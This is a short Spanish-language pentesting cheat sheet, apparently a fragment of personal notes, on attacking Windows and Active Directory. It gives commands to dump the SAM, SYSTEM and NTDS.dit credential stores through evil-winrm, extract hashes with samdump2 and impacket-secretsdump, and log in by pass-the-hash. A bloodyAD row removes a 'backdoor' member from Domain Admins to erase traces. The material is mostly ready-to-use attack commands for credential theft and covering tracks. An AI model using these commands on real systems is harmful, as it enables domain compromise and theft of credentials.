 |**remove member**|`bloodyAD ... remove member "Domain Admins" backdoor`|Elimina a un usuario de un grupo (limpieza de huellas).|
|**restore**|`bloodyAD ... restore CN=usuario,CN=Deleted Objects,DC=dominio,DC=local`|Restaura un objeto borrado (papelera de AD).|


# PEAS

`linpeas.sh` / `winPEAS.exe` (privesc)


# Evil-winrm

Si conseguimos acceso:

```
evil-winrm> reg save HKLM\system system
evil-winrm> reg save HKLM\sam sam
evil-winrm> download system
evil-winrm> download sam
```

SAM+SYSTEM = SAM DRCRYPTED

```
samdump2 system sam
```

o con impacket-secretsdump, o con secretsdump.py.

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

Y luego, pero conseguirás un user local:

```
evil-winrm -i <IPoDOminio> -u '<user>' -H '<hash>' 
```


# Cracking NTDS.DIT

Si conseguimos acceso con Evil-winrm:

```
evil-winrm> download <ruta_ntds.dit>
```

```
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```



# Metasploit

# GTFobins

etc.